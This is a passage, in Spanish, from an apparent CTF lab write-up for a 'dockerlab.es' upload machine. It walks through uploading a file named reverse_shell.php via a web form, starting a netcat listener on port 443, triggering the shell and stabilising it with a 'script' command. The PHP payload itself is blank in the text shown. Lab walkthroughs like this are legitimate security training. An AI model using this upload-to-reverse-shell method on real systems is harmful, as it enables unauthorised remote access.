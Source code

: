 ```php
?> 
```

Y la subimos mediante el formulario y tendríamos lo siguiente en el directorio `uploads`.

<br>
![](/blog/assets/dockerlab.es_upload/paso_10.png)
<br>

Antes de presionar, debemos correr en una terminal la siguiente sentencia:
```bash
nc -lvnp 443
```
Ahora hacemos click sobre el archivo `reverse_shell.php`.

Y en nuestra terminal que corría `nc` debería aparecer lo siguiente:

<br>
![](/blog/assets/dockerlab.es_upload/paso_11.png)
<br>

Ahora es momento de tratar la bash, más que nada para poder hacer `ctrl+c` sin matar la `reverse_shell` y `ctrl+l` para poder limpiar la pantalla:

```bash
script /dev/null -c bash
```

`ctrl+z`
